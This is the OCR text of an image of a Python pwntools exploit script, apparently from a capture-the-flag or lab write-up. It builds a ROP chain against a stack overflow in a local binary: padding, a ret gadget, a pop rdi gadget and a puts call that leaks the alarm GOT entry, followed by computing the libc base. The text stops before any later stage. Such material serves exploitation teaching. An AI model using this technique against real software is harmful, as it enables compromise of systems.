 ```python
ret = rop.find_gadget(['ret'])[0]                    # Find ret gadget
success(f'{hex(pop_rdi)=}')                          # Print out pop_rdi gadget in hex
success(f'{hex(ret)=}')                              # Print out ret gadget in hex
main_function = exe.symbols.main                     # Execute main()
puts_plt = exe.plt.puts                              # Obtain puts() from PLT
alarm_got = exe.got.alarm                            # Obtain alarm() from GOT
exit_plt = exe.plt.exit
success(f'{hex(puts_plt)=}')                         # Print location of puts() from PLT
success(f'{hex(alarm_got)=}')                        # Print location of alarm() from GOT
success(f'{hex(exit_plt)=}')

context.binary = exe

# Uncomment one or the other for proper process startup -- local or debugger?
def conn():
    if args.LOCAL:  
        # r = process([exe.path])                   # Just start the local process
        r = gdb.debug([exe.path])                   # Open with pwndbg debugger
    else:
        r = remote("127.0.0.1", 9999)

    return r

def main():
    
    offset = 32
    length = 90
    r = conn()
    prompt = r.recvuntil(b'\n> ')                   
    print(prompt.decode('utf-8'))                   # Print out prompt that's given to us -- need to use utf-8 as it is sent as bytes
    # r.send(b'A'*100)
    payload = b''.join([                            # Use join() to join all elements in a list into one string
        b'A'*offset,
        #b'\x42\x42\x42\x42\x42\x42\x42\x42',       # This is the same as "BBBBBBBB", this will send 8 B's after 32 A's (our offset value) 
        p64(ret),                                   # Stack-alignment issues requires a ret gadget here
        p64(pop_rdi),                               # ROP Gadget to pop alarm_got into the RDI register
        p64(alarm_got),                              
        p64(puts_plt),                                # Call puts() from PLT
        p64(main_function),                         # Jump back into main(), executing it twice -- needs to be packed into the binary's format (64-bit representation) this is because we received the numeric value from main_function
    ])
    
    # A's at the top, B's for injection test, and C's for padding out the original length of data to send out
    payload += b'C'*(length -len(payload))          

    r.send(payload)
    alarm_libc = u64(r.recvline().strip().ljust(8, b'\x00')) # Retrieve value of the base address -> once our payload returns
    success(f'{hex(alarm_libc)=}')

    # Do maths to obtain the libc base -> alarm_libc subtracted from the value of the libc object from the offset of alarm
    libc_base = alarm_libc - libc.symbols.alarm            
    success(f'{hex(libc_base)=}')
    libc.address = libc_base

```
